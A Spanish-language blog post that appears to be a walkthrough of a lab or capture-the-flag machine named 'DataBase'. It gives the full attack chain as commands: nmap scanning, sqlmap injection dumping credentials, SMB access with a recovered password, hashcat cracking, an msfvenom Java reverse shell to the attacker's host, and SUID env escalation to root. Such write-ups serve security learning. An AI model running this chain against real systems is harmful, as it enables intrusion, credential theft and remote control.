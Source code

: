 ```yaml
---
layout: post
title: "DataBase"
date: 2024-12-3
categories: [pentesting]
image: /assets/images/imagen.jpg
---
```

Aquí va el contenido de tu entrada de blog. Puedes usar Markdown para formatear el texto, como en este ejemplo.


iniciamos la maquina 

![Descripción de la imagen](/imagenes/pasted_image_20241129171203.png)

escaneamos puertos con nmap  `nmap -p- --open -sCSV -vvv -Pn -n --min-rate 5000 172.17.0.2` 
 
![[Pasted image 20241129171313.png]](/imagenes/Pasted%20image%2020241129171313.png)

entramos a la dirrecion desde el navegador 

![[Pasted image 20241129171346.png]](/imagenes/Pasted%20image%20241129171346.png)

buscamos si el login tiene alguna vulneravilidad sql `sqlmap -u http://172.17.0.2:80/index.php --dbs --forms` 

![[Pasted image 20241129171558.png]](/imagenes/Pasted%20image%2020241129171558.png)

encontramos bases de datos que exploraremos 
 `sqlmap -u http://172.17.0.2:80/index.php  --forms -D register --tables` 
 
 ![[Pasted image 20241129171705.png]](/imagenes/Pasted%20image%2020241129171705.png)
 
 `sqlmap -u http://172.17.0.2:80/index.php  --forms -D register --tables -T users --columns --batch`
 
 ![[Pasted image 20241129171823.png]](/imagenes/Pasted%20image%202024112917182.png)
 
`sqlmap -u http://172.17.0.2:80/index.php  --forms -D register --tables -T users --columns -C username,passwd --batch --dump`

![[Pasted image 20241129171940.png]](/imagenes/Pasted%20image%2020241129171940.png)

con las credenciales encontradas probamos en el login 

![[Pasted image 20241129172039.png]](/imagenes/Pasted%20image%2020241129172039.png)

en nmap observamos que esta base de datos corria en samba asi que hacemos uso de smbmap `smbmap -H 172.17.0.2 -u 'dylan' -p 'KJSDFG789FGSDF78'`

![[Pasted image 20241129172223.png]](/imagenes/Pasted%20image%2020241129172223.png)

tenemos permisos de lectura y escritura en shared `smbclient -U 'dylan' //172.17.0.2/shared` 

![[Pasted image 20241129172319.png]](/imagenes/Pasted%20image%2020241129172319.png)

con el comando get descargamos el archivo txt que encontramos de nombre augustus,txt

![[Pasted image 20241129172409.png]](/imagenes/Pasted%20image%2020241129172409.png)

vemos que es un tipo de hash procedemos a identificar y decifrar 

![[Pasted image 20241129172508.png]](/imagenes/Pasted%20image%2020241129172508.png)

`echo "061fba5bdfc076bb7362616668de87c8" > hashes.txt   ---  hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt`

![[Pasted image 20241129172730.png]](/imagenes/Pasted%20image%2020241129172730.png)

entramos mediante ssh con el usuario augustus y la contrasena obtenida  `ssh -p22 augustus@172.17.0.2` 

![[Pasted image 20241129172918.png]](/imagenes/Pasted%20image%2020241129172918.png)

usamos msfvenom para hacernos una revershell ya que el usuario dylan puede ejecutar codigo java 
 `msfvenom -p java/shell_reverse_tcp LHOST=<tu-ip> LPORT=4444 -f jar -o shell.jar`
 nos colocamos en escucha y luego ejecutamos nuestro archivo desde el usuario augustus 
 
 ![[Pasted image 20241129173148.png]](/imagenes/Pasted%20image%2020241129173148.png)
 
  con este comando subes tu archivo jar a la maquina victima `scp <archivo> augustus@172.17.0.2:/tmp` luego ejecutas `sudo -u dylan /usr/bin/java -jar /tmp/shell.jar`
  
  ![[Pasted image 20241129173519.png]](/imagenes/Pasted%20image%2020241129173519.png)
  
  le das tratamiento a la tty para tener la interfaz dylan `script /dev/null -c bash`
 luego para buscar los recursos que ejecuta el usuario  `find / -perm -4000 2>/dev/null`
 ya puedes observar que tienes permiso en la ruta env `/usr/bin/env /bin/sh -p`
 y listo eres root 
 
![[Pasted image 20241129173801.png]](/imagenes/Pasted%20image%2020241129173801.png)


   


